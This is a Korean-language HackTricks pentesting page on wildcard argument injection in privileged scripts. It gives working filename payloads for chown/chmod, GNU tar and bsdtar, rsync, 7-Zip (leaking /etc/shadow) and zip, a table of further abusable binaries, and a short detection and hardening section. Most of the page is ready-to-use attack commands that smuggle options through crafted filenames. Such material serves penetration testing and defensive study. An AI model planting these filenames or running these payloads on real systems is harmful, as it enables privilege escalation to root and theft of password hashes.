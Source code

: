 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> 와일드카드(일명 *glob*) **인수 주입**은 특권 스크립트가 `tar`, `chown`, `rsync`, `zip`, `7z`와 같은 Unix 바이너리를 인용되지 않은 와일드카드 `*`와 함께 실행할 때 발생합니다.
> 셸이 바이너리를 실행하기 **전에** 와일드카드를 확장하기 때문에, 작업 디렉토리에 파일을 생성할 수 있는 공격자는 `-`로 시작하는 파일 이름을 만들어 이를 **데이터가 아닌 옵션**으로 해석되도록 하여 임의의 플래그나 심지어 명령을 밀어넣을 수 있습니다.
> 이 페이지는 2023-2025년을 위한 가장 유용한 원시 요소, 최근 연구 및 현대 탐지를 수집합니다.

## chown / chmod

`--reference` 플래그를 악용하여 **임의 파일의 소유자/그룹 또는 권한 비트를 복사할 수 있습니다**:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
루트가 나중에 다음과 같은 것을 실행할 때:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file`가 주입되어, *모든* 일치하는 파일이 `/root/secret``file`의 소유권/권한을 상속받습니다.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (결합 공격).
자세한 내용은 고전 DefenseCode 논문을 참조하십시오.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**checkpoint** 기능을 악용하여 임의의 명령을 실행합니다:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
루트가 예를 들어 `tar -czf /root/backup.tgz *`를 실행하면, `shell.sh`가 루트로 실행됩니다.

### bsdtar / macOS 14+

최근 macOS의 기본 `tar`( `libarchive` 기반)는 `--checkpoint`를 구현하지 않지만, 외부 압축기를 지정할 수 있는 **--use-compress-program** 플래그를 사용하여 여전히 코드 실행을 달성할 수 있습니다.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
특권 스크립트가 `tar -cf backup.tar *`를 실행하면 `/bin/sh`가 시작됩니다.

---

## rsync

`rsync`는 `-e` 또는 `--rsync-path`로 시작하는 명령줄 플래그를 통해 원격 셸 또는 원격 바이너리를 재정의할 수 있게 해줍니다:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
루트가 나중에 `rsync -az * backup:/srv/`로 디렉토리를 아카이브하면, 주입된 플래그가 원격 측에서 당신의 셸을 생성합니다.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` 모드).

---

## 7-Zip / 7z / 7za

특권 스크립트가 와일드카드를 `--`로 *방어적으로* 접두사 붙여서 옵션 파싱을 중지하더라도, 7-Zip 형식은 파일 이름을 `@`로 접두사 붙여 **파일 목록 파일**을 지원합니다. 이를 심볼릭 링크와 결합하면 *임의 파일을 유출할 수 있습니다*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
루트가 다음과 같은 것을 실행하면:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip는 `root.txt` (→ `/etc/shadow`)를 파일 목록으로 읽으려고 시도하며, **stderr에 내용을 출력하며 중단합니다**.

---

## zip

`zip`는 아카이브가 테스트될 때 시스템 셸에 *그대로* 전달되는 `--unzip-command` 플래그를 지원합니다:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## 추가 바이너리: 와일드카드 주입에 취약한 (2023-2025 빠른 목록)

다음 명령어는 현대 CTF와 실제 환경에서 악용되었습니다. 페이로드는 항상 와일드카드로 처리될 수 있는 쓰기 가능한 디렉토리 내의 *파일 이름*으로 생성됩니다:

| 바이너리 | 악용할 플래그 | 효과 |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → 임의의 `@file` | 파일 내용 읽기 |
| `flock` | `-c <cmd>` | 명령 실행 |
| `git`   | `-c core.sshCommand=<cmd>` | SSH를 통한 git의 명령 실행 |
| `scp`   | `-S <cmd>` | ssh 대신 임의의 프로그램 실행 |

이러한 원시 명령어는 *tar/rsync/zip* 고전보다 덜 일반적이지만, 사냥할 때 확인할 가치가 있습니다.

---

## 탐지 및 강화

1. **중요 스크립트에서 셸 글로빙 비활성화**: `set -f` (`set -o noglob`)는 와일드카드 확장을 방지합니다.
2. **인수 인용 또는 이스케이프**: `tar -czf "$dst" -- *`는 *안전하지 않습니다* — `find . -type f -print0 | xargs -0 tar -czf "$dst"`를 선호합니다.
3. **명시적 경로**: 공격자가 `-`로 시작하는 형제 파일을 생성할 수 없도록 `*` 대신 `/var/www/html/*.log`를 사용합니다.
4. **최소 권한**: 가능한 경우 루트 대신 비특권 서비스 계정으로 백업/유지 관리 작업을 실행합니다.
5. **모니터링**: Elastic의 사전 구축된 규칙 *Potential Shell via Wildcard Injection*은 `tar --checkpoint=*`, `rsync -e*`, 또는 `zip --unzip-command` 다음에 즉시 셸 자식 프로세스를 찾습니다. EQL 쿼리는 다른 EDR에 맞게 조정할 수 있습니다.

---

## 참조

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (최종 업데이트 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (2024년 12월 18일)

{{#include ../../banners/hacktricks-training.md}}
